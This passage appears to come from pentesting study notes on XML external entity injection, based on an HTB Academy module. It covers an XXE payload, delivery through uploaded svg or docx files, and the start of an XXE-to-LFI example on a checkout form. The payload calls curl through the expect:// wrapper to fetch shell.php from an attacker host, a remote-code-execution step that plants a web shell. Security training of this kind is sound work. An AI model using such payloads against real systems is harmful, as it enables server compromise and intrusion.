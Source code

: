 {% tab title="2. XXEI" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
{% endtab %}
{% endtabs %}

### File Uploads

We can leverage a[ **file upload** functionality by uploading **XML-based formats**](xxei.md#svg-xxei-greater-than-lfi) (`svg`, `docx`). In this case we must ensure to set `Content-Type: text/svg+xml`.

## Examples

### XXEI -> LFI

> _The example below is based on HTB's_ [_Web Enumeration & Exploitation_](https://academy.hackthebox.com/module/163/section/1544) _module._

The checkout process is sending data in XML format (Figure 1).

<figure><img src="../../../../.gitbook/assets/xxe_example_checkout.png" alt=""><figcaption><p>Figure 1: The checkout process sends dota in XML format.</p></figcaption></figure>

The XML data has 2 fields: `subtotal` and `userid`. We can already see that the value passed into the latter gets reflected back, but we can also confirm it (Figure 2).
